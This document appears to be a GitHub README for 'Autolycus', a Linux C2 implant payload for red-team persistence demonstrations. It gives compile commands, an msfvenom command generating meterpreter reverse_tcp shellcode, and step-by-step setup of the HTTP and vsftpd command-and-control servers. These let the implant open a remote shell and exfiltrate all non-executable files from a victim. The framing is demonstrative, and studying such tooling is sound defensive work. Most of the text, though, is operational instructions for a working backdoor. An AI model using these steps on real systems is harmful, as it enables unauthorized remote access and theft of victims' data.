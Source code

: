 # Linux Payload: Autolycus

### Description

This is an example of a payload that can be used against a Linux based target in conjunction with the Nekrosis application. If Nekrosis is being used to demonstrate how an adversary could achieve persistence, this payload can be used to demonstrate the kind of code an adversary may deploy with their unauthorized access. This payload will call back to the C2 server once per hour to receive an instruction directive. Different instruction directives will execute different modules, providing support for fileless remote access as well as the exfiltration of all non-executable files on the victim's file system.

### Compilation

In the source code you must change all instances of "ADDRESS:PORT" with the appropriate information.

```shell [Command Line]
sudo apt install libcurl4-openssl-dev
gcc main.c -o main -s -lcurl -lpthread
```

### Configuring the C2 Server

The required C2 setup varies based on the instruction directive being used.

The following setup was successfully tested in Kali Linux. Both the web server and the VSFTPD server must be accessible by the target.

## EXEC Directive:

1. Setting up the web server:

Creating the shellcode for remote access:
```shell [Command Line]
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ADDRESS LPORT=PORT -f raw -b "\x00" >> shellcode
```
Leaving the instruction directive:
```shell [Command Line]
echo -n "EXEC" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

## COPY Directive:

1. Setting up the VSFTPD server:

Installing VSFTPD:
```shell [Command Line]
sudo apt update && sudo apt install vsftpd
```
Creating the dedicated user:
```shell [Command Line]
sudo useradd test && sudo passwd test
```
Creating their home directory (that will be used as the local_root directory for FTP):
```shell [Command Line]
sudo mkdir /home/test && sudo chown test:test /home/test
```
The /etc/vsftpd.conf file needs to be edited to contain the following lines:
```shell [Command Line]
write_enable=YES
listen_port=[PORT]
userlist_deny=NO
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
pasv_min_port=[PORT]
pasv_max_port=[PORT]
local_root=/home/test/
```
The userlist should contain the dedicated user:
```shell [Command Line]
sudo touch /etc/vsftpd.userlist && sudo echo "test" >> /etc/vsftpd.userlist
```
Reload the service for the changes to take effect:
```shell [Command Line]
sudo systemctl restart vsftpd
```
Lastly, if this server will be running on a machine that is publicly accessible via SSH it is recommended to add the following line to /etc/ssh/sshd_config:
```shell [Command Line]
DenyUsers test
```

2. Setting up the web server:

Adding the dedicated user's credentials and the instruction directive:
```shell [Command Line]
echo -n "username" >> username.txt
```
```shell [Command Line]
echo -n "password" >> password.txt
```
```shell [Command Line]
echo -n "COPY" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

With these servers properly configured and accessible by the target the payload will have what it needs to execute the COPY directive. It is highly encouraged not to deploy this payload over the public internet particularly if there may be sensitive information on the victim.

